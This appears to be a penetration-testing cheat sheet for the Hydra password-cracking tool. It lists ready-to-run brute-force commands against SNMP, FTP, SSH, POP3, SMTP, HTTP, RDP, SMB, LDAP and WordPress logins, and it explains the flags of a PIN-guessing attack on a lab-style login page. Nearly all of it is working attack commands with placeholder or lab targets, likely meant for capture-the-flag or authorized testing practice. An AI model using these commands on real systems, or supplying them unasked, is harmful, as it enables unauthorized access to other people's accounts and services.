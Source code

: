Command         Description  
hydra -P password-file.txt -v $ip snmp  Hydra brute force against SNMP  
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp     Hydra FTP known user and rockyou password list  
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh    Hydra SSH using list of users and passwords  
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh       Hydra SSH using a known password and a username list  
hydra $ip -s 22 ssh -l -P big_wordlist.txt      Hydra SSH Against Known username on port 22  
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V        Hydra POP3 Brute Force  
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V       Hydra SMTP Brute Force  
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin       Hydra attack http get 401 login with a dictionary  
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip         Hydra attack Windows Remote Desktop with rockyou  
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb   Hydra brute force SMB user with rockyou:  
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'         Hydra brute force a Wordpress admin login  
hydra -L usernames.txt -P passwords.txt $ip smb -V -f   SMB Brute Forcing  
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f     LDAP Brute Forcing  


---------------------------------------------------------------------------------  

hydra -l '' -P 3digits.txt -f -v 10.10.50.172 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000  

The command above will try one password after another in the 3digits.txt file. It specifies the following:  
    -l '' indicates that the login name is blank as the security lock only requires a password
    -P 3digits.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    10.10.50.172 is the IP address of the target
    http-post-form specifies the HTTP method to use
    "/login.php:pin=^PASS^:Access denied" has three parts separated by :
        /login.php is the page where the PIN code is submitted
        pin=^PASS^ will replace ^PASS^ with values from the password list
        Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target

---------------------------------------------------------------------------------  

`hydra -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-head /`

SYNTAX :
#http-get  
`hydra -l username -P <wordlist> -f <ip> http-get /`

#http-head  
`hydra -l username -P <wordlist> -f <ip> http-head /`

http-head:  

This specifies the protocol and method to be used. http-head tells Hydra to use the HTTP HEAD method for the attack. The HEAD method is similar to GET, but it only retrieves the headers, not the full content. This can be useful for checking authentication without downloading large amounts of data.
